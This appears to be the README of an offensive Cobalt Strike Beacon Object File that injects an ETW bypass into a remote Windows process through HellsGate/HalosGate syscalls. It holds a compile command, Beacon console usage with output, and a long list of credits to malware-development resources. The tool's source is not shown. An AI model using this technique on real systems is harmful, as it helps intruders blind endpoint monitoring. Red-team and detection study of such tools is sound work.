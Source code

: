 ## Cobalt Strike BOF - Inject ETW Bypass
Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)

#### Running InjectEtwBypass BOF from CobaltStrike to Bypass ETW in Notepad.exe
  ![](images/injectEtw.png)

### Compile with x64 MinGW:
```bash
cat compile.sh
x86_64-w64-mingw32-gcc -m64 -mwindows -c injectEtwBypass.c -o injectEtwBypass.o -masm=intel -Wall -fno-asynchronous-unwind-tables -nostdlib -fno-ident -Wl,-Tlinker.ld,--no-seh
bash compile.sh
```

### Run from Cobalt Strike Beacon Console
+ After compiling `injectEtwBypass.o`, load the `injectEtwBypass.cna` script into Cobalt Strikes via the Script Manager
+ Once loaded into Cobalt Strike, you can use the command from the interactive beacon console:
```bash
beacon> help
    injectEtwBypass           Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)
beacon> help injectEtwBypass
Synopsis: injectEtwBypass PID
beacon> injectEtwBypass 8968
[*] Inject ETW Bypass (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] host called home, sent: 2336 bytes
[+] received output:
Injecting NTDLL.EtwEventWrite bypass in remote process: 8968 (PID)
```

## Credits / References
### ETW Bypass Massive Credits to [Adam Chester (@\_xpn\_) of TrustedSec](https://twitter.com/_xpn_) 
+ [@\_xpn\_ Hiding Your .NET – ETW](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/)
+ [ajpc500/BOFs](https://github.com/ajpc500/BOFs/)
+ [Offensive Security OSEP](https://www.offensive-security.com/pen300-osep/)
### Creating Shellcode BOFs with C [Chetan Nayak (@NinjaParanoid)](https://twitter.com/NinjaParanoid)
+ [Executing Position Independent Shellcode from Object Files in Memory](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/)
### HalosGate SysCaller
+ [Reenz0h from @SEKTOR7net](https://twitter.com/SEKTOR7net)
  + Most of the C techniques I use are from [Reenz0h's awesome Sektor7 courses](https://institute.sektor7.net/) & blogs 
  + Best classes for malware development out there.
  + Creator of the halos gate technique. His work was the motivation for this work.
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ @smelly__vx & @am0nsec ( Creators/Publishers of the Hells Gate technique )
  + Could not have made my implementation of HellsGate without them :)
  + Awesome work on this method, really enjoyed working through it myself. Thank you!
  + [HellsGate Github Repo](https://github.com/am0nsec/HellsGate)
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### BOF Helpers
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
### Great Resource for learning Intel ASM
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)
### Implementing ASM in C Code with GCC
+ [Outflank - Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
+ https://www.cs.uaf.edu/2011/fall/cs301/lecture/10_12_asm_c.html
+ http://gcc.gnu.org/onlinedocs/gcc-4.0.2/gcc/Extended-Asm.html#Extended-Asm
